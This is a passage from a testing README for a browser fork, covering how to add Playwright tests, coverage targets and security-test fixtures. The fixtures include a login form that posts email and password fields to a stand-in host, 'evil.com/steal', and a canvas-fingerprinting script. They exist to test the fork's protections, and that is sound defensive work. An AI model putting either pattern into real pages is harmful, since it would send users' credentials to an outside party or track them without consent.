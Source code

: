 ```typescript
test('NAV-001: URL bar navigation', { tag: '@p0' }, async ({ page }) => {
  // test code
});
```

### 4. Add Test Page (if needed)

Create HTML test page in `test-pages/` directory.

### 5. Update TEST_MATRIX.md

Mark test as implemented in the matrix.

## Test Coverage Goals

- **Phase 1 (Weeks 1-8)**: 182 P0 tests
- **Phase 2 (Weeks 9-13)**: 96 P1 tests
- **Phase 3 (Weeks 14-16)**: 33 P2 tests
- **Total**: 311 tests

Current coverage: **0/311 tests implemented** (0%)

## Security Test Notes (Fork-Specific)

### FormMonitor Tests

Require test pages with cross-origin forms:

```html
<!-- test-pages/forms/cross-origin-form.html -->
<form action="https://evil.com/steal" method="POST">
  <input type="email" name="email">
  <input type="password" name="password">
  <button type="submit">Submit</button>
</form>
```

### Fingerprinting Tests

Require aggressive fingerprinting test pages:

```html
<!-- test-pages/fingerprinting/canvas-aggressive.html -->
<script>
  // Canvas fingerprinting
  const canvas = document.createElement('canvas');
  const ctx = canvas.getContext('2d');
  ctx.fillText('Test', 10, 10);
  const fp = canvas.toDataURL();
</script>
```

### Sentinel Service
